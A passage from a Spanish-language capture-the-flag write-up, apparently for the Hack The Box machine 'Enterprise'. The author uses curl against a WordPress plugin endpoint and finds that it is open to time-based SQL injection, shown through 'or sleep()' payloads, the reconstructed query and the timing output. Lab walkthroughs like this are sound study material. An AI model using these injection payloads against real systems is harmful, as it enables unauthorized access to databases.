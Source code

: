 Como vimos antes, si hacemos una consulta hacia el recurso `lcars_db.php` vemos:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=a
 
```

Nos responde, pero si hacemos la consulta con un numero, obtenemos:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1
<br />
<b>Catchable fatal error</b>:  
Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b>
<br />
```

Nos indica que el resultado no puede ser convertido a una cadena de caracteres. 

Jmm, ¿será que nos podemos aprovechar de esto? Pues sí, podemos indicarle, si hay algún problema con la consulta hacia el **ID** `1`, entonces hazme otra cosa, como por ejemplo demorar la respuesta X tiempo con la consulta `SLEEP(<tiempo>)`, la también llamada **SQL injection - Time based**. Entonces la petición quedaría asi:

```html
http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 or sleep(2);#
```

* Con `;#` le indicamos que todo lo que vaya después lo tome como comentarios.

Si lo extrapolamos a como viajaría la consulta hacia la base de datos, quedaría asi:

```sql
SELECT ID FROM wp_posts WHERE post_name = 1 or sleep(2);#;
```

* Como el nombre del post da error, ejecuta el **sleep**.

Si ejecutamos en `bash`, tenemos:

```bash
# URL encodeada
❭ time curl -s "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20or%20sleep(2);#"
<br />
<b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b><br />

real    1m25,973s
...
```

Se demora 1 minuto con 25 segundos (que es un montón, pero es porque por cada fila de la tabla hace el **sleep**), incluso al indicarle que simplemente se demorara **2** segundos más... Por lo tanto podemos jugar con el mismo **SLEEP** para indicarle milisegundos, a ver cuanto se demora en realidad:

```bash
❭ time curl -s "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=2%20or%20sleep(0.1);#"
<br />
<b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b><br />

real    0m4,658s
...
```
